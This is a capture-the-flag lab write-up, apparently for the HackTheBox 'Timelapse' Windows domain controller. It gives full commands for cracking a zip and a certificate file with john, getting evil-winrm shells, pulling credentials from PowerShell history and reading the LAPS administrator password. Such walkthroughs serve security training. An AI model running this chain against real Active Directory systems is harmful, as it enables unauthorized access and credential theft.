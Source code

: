 # Timelapse

### Reconnaissance

Nmap scans run very slowly on the target

Appears to be an Active Directory DC; kerberos, ldap, ldaps, dns, etc. running on the target

**Port 445 SMB**

Shares are visible

![Shares](./pictures/smb-shares.png)

Inside the share there are 2 directories, Dev and HelpDesk

Dev contains a password protected zip archived (cracked) .pfx file (cracked), and HelpDesk contains documents
on LDAPS and an LDAPS x64 .msi file (hint hint?)

![Files](./pictures/smb-files.png)

### Exploitation

Crack the .zip

`zip2john winrm_backup.zip > zip_hash.txt`
`john -w=rockyou.txt zip_hash.txt`

Crack the .pfx

`pfx2john legacyy_dev_auth.pfx | john -w=rockyou.txt /dev/stdin`

Extract to a .pem file

`openssl pkcs12 -in legacyy_dev_auth.pfx -nodes -out cert.pem`

Use Evil-WinRM to get a user shell with the .pem file

`evil-winrm -i 10.10.11.152 -S -k cert.pem -c cert.pem`

Check services with evil-winrm

![Services](./pictures/services.png)

### Privilege Escalation

Manual enumeration leads us to the PowerShell history for legacyy

`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Which contains credentials for the svc_deploy user

![svc_deploy](./pictures/svc_deploy-creds.png)

Use Evil-WinRM to get a shell as svc_deploy

`evil-winrm -i 10.10.11.152 -S -u svc_deploy -p password`

svc_deploy is a member of the group LAPS_Reader, which means we can read the Administrator password

![svc_deploy groups](./pictures/svc_deploy-groups.png)

`PS C:\> Get-AdComputer DC01 -Property 'ms-mcs-admpwd'`

Use the password to get a shell with Evil-WinRM as the Administrator

### Lessons Learned

- Check your nmap scans are behaving normally! -A is weird, use -sC -sV

- .pfx files can be cracked with john, then extracted [to .pem](https://www.xolphin.com/support/Certificate_conversions/Convert_pfx_file_to_pem_file) or [to .key](https://support.citrix.com/article/CTX229158/how-to-extract-the-private-and-public-key-from-pfx-file) files
exit

- When using `ls` in `smbclient` add \ after the directory name to list the contents e.g. `smb: \> ls Dev\`

- Evil-WinRM can be used with pem files

- Don't forget to check PowerShell history  
`C:\Users\User\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

- Read LAPS Administrator passwords with `Get-ADComputer <PC name> -Property 'ms-mcs-admpwd'`
